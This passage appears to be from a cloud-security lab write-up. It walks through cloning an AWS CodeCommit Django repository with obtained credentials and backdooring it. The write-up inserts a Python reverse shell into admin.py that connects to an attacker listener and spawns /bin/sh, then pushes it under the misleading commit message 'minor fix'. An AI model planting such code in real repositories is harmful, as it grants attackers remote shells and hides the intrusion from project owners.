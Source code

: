 It is `CrimeRecordMgmt`. To clone the repository we've to setup git to use `tamayo` AWS credentials. 

```bash
git config --global credential.helper '!aws codecommit credential-helper $@'
git config --global credential.UseHttpPath true 
```

The URL format can be found from [docs](https://docs.aws.amazon.com/codecommit/latest/userguide/setting-up-https-unixes.html?icmpid=docs_acc_console_connect#setting-up-https-unixes-account). The final clone command is as below.

```bash
git clone https://git-codecommit.us-east-2.amazonaws.com/v1/repos/CrimeRecordMgmt crm
Cloning into 'crm'...
remote: Counting objects: 66, done.
Unpacking objects: 100% (66/66), 17.72 KiB | 61.00 KiB/s, done.
```

Going inside the `crm` folder we see the repository. It is clear that this is a django application. Checking the `crm/templates/index.html` reveals that this application still under maintenance. 

```html
<h1>Under Maintenance</h1>
<h2>Sorry for the inconvenience caused. We will try to serve you soon!
```

Exploring around we didn't find anything interesting. Git logs also shows nothing that looks important. Having owner privileges we can try to backdoor the application code and gain access to the instance that the code is running on. It may help further gaining access to the role that is attached to the instance that the project is running on. 

Having this ideology we can update any of the python file inside `crm` folder. Let's update `crm/admin.py` as below.

```python
import os,socket,pty
from django.contrib import admin

# Register your models here.
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<ip>",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

> Note: Replace IP with your listener IP

Start the listener on port 1234 and do below steps to push the changes. 

```bash
git add .
git commit -m "minor fix"
git push
Enumerating objects: 7, done.
Counting objects: 100% (7/7), done.
Delta compression using up to 2 threads
Compressing objects: 100% (4/4), done.
Writing objects: 100% (4/4), 513 bytes | 513.00 KiB/s, done.
Total 4 (delta 2), reused 0 (delta 0), pack-reused 0
To https://git-codecommit.us-east-2.amazonaws.com/v1/repos/CrimeRecordMgmt
   40228af..3029b7d  master -> master
```

